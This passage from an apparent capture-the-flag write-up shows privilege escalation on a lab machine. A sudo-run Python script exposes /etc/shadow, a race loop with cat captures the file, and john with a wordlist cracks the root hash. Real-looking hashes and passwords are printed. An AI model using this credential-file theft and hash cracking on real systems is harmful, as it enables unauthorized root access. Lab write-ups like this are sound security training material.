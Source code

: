 And also, we can run it with `sudo`, in order to be able to read the shadow file
inside the script:
```console
robert@obscure:/tmp/SSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Because the file in `/tmp/SSH` will get deleted almost immediately, let's use a
simple while loop to read all the files in the directory:
```console
robert@obscure:/tmp/SSH$ while true; do cat * 2>/dev/null; done
```

Let's run the script:
```console
robert@obscure:~/BetterSSH$ sudo python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Authed!
robert@Obscure$
```

Let's check the output of the `cat` inside the loop:
```text
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7




robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

Cool! We have the hashes! We already know robert's password, so let's copy the
other to a file and use `john` to crack it:
```console
$ john --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-05-07 20:27) 6.666g/s 3413p/s 3413c/s 3413C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
